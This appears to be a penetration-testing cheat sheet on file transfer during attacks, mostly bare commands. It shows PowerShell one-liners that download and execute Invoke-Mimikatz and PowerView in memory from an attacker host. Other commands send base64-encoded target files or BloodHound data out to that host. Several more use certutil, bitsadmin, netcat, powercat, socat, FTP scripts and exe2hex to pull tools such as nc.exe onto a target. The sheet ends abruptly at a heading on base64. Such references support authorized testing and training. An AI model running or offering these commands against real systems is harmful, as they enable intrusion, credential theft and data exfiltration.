 # file transfers

## Windows

### powershell download

```
(New-Object System.Net.WebClient).DownloadFile('https://<LHOST>/PowerView.ps1',".\PowerView.ps1")
Invoke-WebRequest https://<LHOST>/PowerView.ps1 -OutFile PowerView.ps1
```

### powershell in memory execution

```
IEX (New-Object Net.WebClient).DownloadString('https://<LHOST>/Invoke-Mimikatz.ps1')
Invoke-WebRequest https://<LHOST>/Invoke-Mimikatz.ps1 | iex
```

### if powershell first launch configuration has not been completed 

use `-UseBasicParsing`

```
Invoke-WebRequest https://<LHOST>/PowerView.ps1 -UseBasicParsing | iex
```

or disable first run customization

```
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

### powershell uploads

catch with netcat

```
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/<FILE>' -Encoding Byte))
Invoke-WebRequest -Uri http://<LHOST>:<LPORT> -Method POST -Body $b64
```

### bitsadmin

```
bitsadmin /transfer n http://<LHOST>/nc.exe C:\Temp\nc.exe
```

powershell download or upload using bitsadmin

```
Import-Module bitstransfer;Start-BitsTransfer -Source "http://<LHOST>/nc.exe" -Destination "C:\Temp\nc.exe"
Start-BitsTransfer "C:\<FILE>" -Destination "http://<RHOST>/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### certutil

```
certutil.exe -verifyctl -split -f http://<LHOST>/nc.exe
```

## Netcat

```
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

## Powercat

```
# source
powercat -c <ip> -p <port> -i C:\<src_path>

# destination
powercat -l -p <port> -of C:\<dst_path>
```

## Socat

```
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

## HTTP server + Powershell

```
# create server on attacker machine with one of these
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox -f -p <port>

# download with powershell oneliner
## download file
(New-Object System.Net.WebClient).DownloadString("<source>","<destination>")

## execute powershell script without touching disk
iex (New-Object System.Net.WebClient).DownloadString("<source>")

## upload file
iex (New-Object System.Net.WebClient).UploadFile("<destination>", "<file>")
```

## pure-ftp

```
# ftp server needs to be configured before

echo open <attacker> 21 > ftp.txt
echo user <user> >> ftp.txt
echo <pass> >> ftp.txt
echo bin >> ftp.txt
echo get <file> >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## exe2hex

```
upc -9 <file>
exe2hex -x <file> -p <output>.cmd
# copy paste into target terminal
```

## If everything fails, base64

